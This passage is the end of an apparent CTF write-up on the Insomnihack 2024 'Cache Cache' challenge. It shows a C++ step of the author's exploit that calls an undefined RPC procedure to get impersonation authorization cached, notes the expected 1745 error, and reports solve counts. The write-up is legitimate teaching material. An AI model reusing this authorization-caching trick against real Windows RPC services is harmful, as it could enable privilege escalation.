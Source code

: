 When trying to invoke the procedure `HsNotUsed42` though, you just have to expect the client-side RPC runtime to throw an exception with the error code returned by the remote server. In that case, it would be `1745 - RPC_S_PROCNUM_OUT_OF_RANGE`.

```cpp
__try {
    // We need to call HsNotUsed42 to pass and cache the authorization, but
    // the procedure number is not defined, an exception will be thrown. This
    // is expected.
    wprintf(L"[*] 5) IMPERSONATION + PRIVACY + HsNotUsed42() -> Authorization cached\r\n");
    ret = HsNotUsed42(BindingHandle);
} __except (EXCEPTION_EXECUTE_HANDLER) {
    wprintf(L"[*] RPC runtime exception: %d - 0x%08x (this exception is expected).\r\n", RpcExceptionCode(), RpcExceptionCode());
}
```

And finally... Here is my exploit code in action!

![Final exploit](/assets/posts/2024-01-21-insomnihack-2024-cache-cache/06_final-exploit.png)
_Final exploit_

## Conclusion

Last year, `InsoBug` was solved by only 3 teams. This year, `Cache Cache` was solved by a total of 8 teams. Congratulations to them! :clap:
